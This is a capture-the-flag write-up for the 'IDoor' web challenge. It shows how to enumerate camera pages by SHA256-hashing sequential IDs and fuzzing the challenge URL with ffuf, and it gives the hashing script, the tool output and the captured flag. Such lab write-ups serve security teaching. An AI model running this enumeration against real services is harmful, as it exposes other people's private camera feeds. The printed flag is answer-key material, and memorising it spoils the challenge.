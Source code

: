 
# Challenge Name: IDoor


![date](https://img.shields.io/badge/date-23.05.2024-brightgreen.svg)  
![solved in time of CTF](https://img.shields.io/badge/solved-in%20time%20of%20CTF-brightgreen.svg)   
![category](https://img.shields.io/badge/category-WEB-blueviolet.svg)   
![value](https://img.shields.io/badge/value-50-blue.svg)  

## Description

Author: @JohnHammond#6971  
  
It's Apple's latest innovation, the "iDoor!" ... well, it is basically the Ring Doorbell camera, but the iDoor offers a web-based browser to monitor your camera, and super secure using ultimate cryptography with even SHA256 hashing algorithms to protect customers! Don't even _think_ about snooping on other people's cameras!!  
  
## Detailed solution

Start by checking the challenge URL, we got a redirection to `/4fc82b26aecb47d2868c4efbe3581732a3e7cbcc6c2efb32062c08170a05eeb8`
http://challenge.nahamcon.com:31646/4fc82b26aecb47d2868c4efbe3581732a3e7cbcc6c2efb32062c08170a05eeb8

![Pasted image 20240525182729](https://github.com/BaadMaro/CTF/assets/72421091/3e7c4708-bbb2-4e08-97cd-f0712f2e4bb4)

As we can see, we have the ID 11 and the URL identifier `4fc82b26aecb47d2868c4efbe3581732a3e7cbcc6c2efb32062c08170a05eeb8` which is the SHA256 value of 11.

We can generate SHA256 hashes with numbers to find different cameras IDs.

```bash
#!/bin/bash

if [ -z "$1" ]; then
  echo "Usage: $0 <input_string>"
  exit 1
fi

python3 -c "
import hashlib
input_string = \"$1\"
sha256_hash = hashlib.sha256(input_string.encode()).hexdigest()
print(sha256_hash)
"
```

```shell
for i in in {0..20}; do bash sha256_bash_python.sh $i; done | ffuf -c -w - -u http://challenge.nahamcon.com:31646/FUZZ          

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.5.0
________________________________________________

 :: Method           : GET
 :: URL              : http://challenge.nahamcon.com:31646/FUZZ
 :: Wordlist         : FUZZ: -
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

5feceb66ffc86f38d952786c6d696c79c2dbc239dd4e91b46729d73a27fb57e9 [Status: 200, Size: 1797, Words: 634, Lines: 54, Duration: 160ms]
19581e27de7ced00ff1ce50b2047e7a567c76b1cbaebabe5ef03f7c3017bb5b7 [Status: 200, Size: 1745, Words: 584, Lines: 52, Duration: 164ms]
6b86b273ff34fce19d6b804eff5a3f5747ada4eaa22f1d49c01e52ddb7875b4b [Status: 200, Size: 1766, Words: 584, Lines: 52, Duration: 172ms]
4b227777d4dd1fc61c6f884f48641d02b4d121d3fd328cb08b5531fcacdabf8a [Status: 200, Size: 1781, Words: 584, Lines: 52, Duration: 171ms]
7902699be42c8a8e46fbbb4501726517e86b22c56a189f7625a6da49081b2451 [Status: 200, Size: 1795, Words: 584, Lines: 52, Duration: 167ms]
4a44dc15364204a80fe80e9039455cc1608281820fe2b24f1e5233ade6af1dd5 [Status: 200, Size: 1781, Words: 584, Lines: 52, Duration: 183ms]
ef2d127de37b942baad06145e54b0c619a1f22327b2ebbcfbec78f5564afe39d [Status: 200, Size: 1781, Words: 584, Lines: 52, Duration: 184ms]
2c624232cdd221771294dfbb310aca000a0df6ac8b66b696d90ef06fdefb64a3 [Status: 200, Size: 1766, Words: 584, Lines: 52, Duration: 194ms]
4fc82b26aecb47d2868c4efbe3581732a3e7cbcc6c2efb32062c08170a05eeb8 [Status: 200, Size: 3286, Words: 1040, Lines: 73, Duration: 185ms]
4e07408562bedb8b60ce05c1decfe3ad16b72230967de01f640b7e4729b49fce [Status: 200, Size: 1780, Words: 584, Lines: 52, Duration: 769ms]
e7f6c011776e8db7cd330b54174fd76f7d0216b612387a5ffcfb81e6f0919683 [Status: 200, Size: 1798, Words: 584, Lines: 52, Duration: 756ms]
d4735e3a265e16eee03f59718b9b5d03019c07d8b6c51f90da3a666eec13ab35 [Status: 200, Size: 1745, Words: 584, Lines: 52, Duration: 848ms]
:: Progress: [22/22] :: Job [1/1] :: 62 req/sec :: Duration: [0:00:01] :: Errors: 0 ::

```

We got a hit with the value `5feceb66ffc86f38d952786c6d696c79c2dbc239dd4e91b46729d73a27fb57e9` which is 0

Now let's visit http://challenge.nahamcon.com:31646/5feceb66ffc86f38d952786c6d696c79c2dbc239dd4e91b46729d73a27fb57e9

![Pasted image 20240525183537](https://github.com/BaadMaro/CTF/assets/72421091/0a2021eb-6a02-4dce-8820-6ee0b7014b21)

We got our flag

## Flag

```
flag{770a058a80a9bca0a87c3e2ebe1ee9b2}
```
